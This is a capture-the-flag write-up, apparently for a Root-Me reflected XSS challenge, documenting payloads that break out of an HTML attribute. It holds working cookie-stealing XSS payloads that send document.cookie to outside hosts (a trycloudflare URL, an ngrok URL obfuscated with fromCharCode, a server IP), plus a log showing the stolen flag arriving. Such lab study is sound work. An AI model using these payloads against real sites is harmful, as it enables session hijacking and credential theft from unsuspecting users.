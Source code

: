 In this challenge, the enpoint is 
```
http://challenge01.root-me.org/web-client/ch26/?p=test123
```
Reflected:
```html
<p>The page <a href='?p=test123'>test123</a> could not be found.</p>
```
Initial payload:
```html
test123' onclick='alert()
```

Test through [various events](https://www.w3schools.com/tags/ref_eventattributes.asp), **onmousemove** worked
```html
test123'onmousemove='document.location="https://offers-germany-promised-paying.trycloudflare.com?c=".concat(document.cookie)
```

Request:
```
127.0.0.1 - - [25/Feb/2025 20:24:27] code 404, message File not found
127.0.0.1 - - [25/Feb/2025 20:24:27] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [25/Feb/2025 20:24:27] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [25/Feb/2025 20:24:27] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [25/Feb/2025 20:24:27] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [25/Feb/2025 20:24:27] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [25/Feb/2025 20:24:27] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [25/Feb/2025 20:25:58] "GET /?c=flag=********_***_*** HTTP/1.1" 200 -
```
Other payloads:
```html
'p=’onfocus=’document.write`<img src=x onerror=setInterval(function(){
   with(document) body.appendChild(createElement("script"))
   .src="//[server_ip]:4848/?".concat(document.cookie)
},1010)>` ’autofocus=
```
```html
p=''onmouseover='window.location=String.fromCharCode(104,116,116,112,58,47,47,102,54,48,101,98,50,50,98,46,110,103,114,111,107,46,105,111,47).concat(btoa(document.cookie))'
```